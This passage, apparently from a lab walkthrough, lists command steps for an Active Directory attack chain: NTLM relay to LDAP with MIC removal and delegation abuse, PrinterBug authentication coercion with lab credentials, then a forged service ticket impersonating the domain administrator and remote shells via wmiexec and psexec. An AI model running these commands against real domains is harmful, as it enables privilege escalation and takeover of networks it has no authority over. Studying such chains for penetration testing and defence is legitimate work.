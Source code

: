 2. Listen to authentication requests

```bash
python3 ntlmrelayx.py -t ldap://10.10.10.137 -smb2support --remove-mic --delegate-access --escalate-user test4\$
```

3. Perform mandatory authentication for printer vulnerabilities

```bash
python3 printerbug.py hack.local/UDUser:H3rmesk1t@2023@10.10.10.135 192.168.31.206
```

![](./images/39.png#pic_center)

4. Apply for a service ticket

```bash
# Use getST.py to apply for tickets
python3 getST.py hack.local/test4$:Passw0rd -spn cifs/WIN-DATA.hack.local -impersonate administrator -dc-ip 10.10.10.137

# Log in directly, you still need to add the domain name to hosts, otherwise it will not be resolved. The SYSTEM permission is available on psexec
KRB5CCNAME=administrator.ccache python3 wmiexec.py -k hack.local/administrator@WIN-DATA.hack.local -no-pass
KRB5CCNAME=administrator.ccache python3 psexec.py -k hack.local/administrator@WIN-DATA.hack.local -no-pass
```
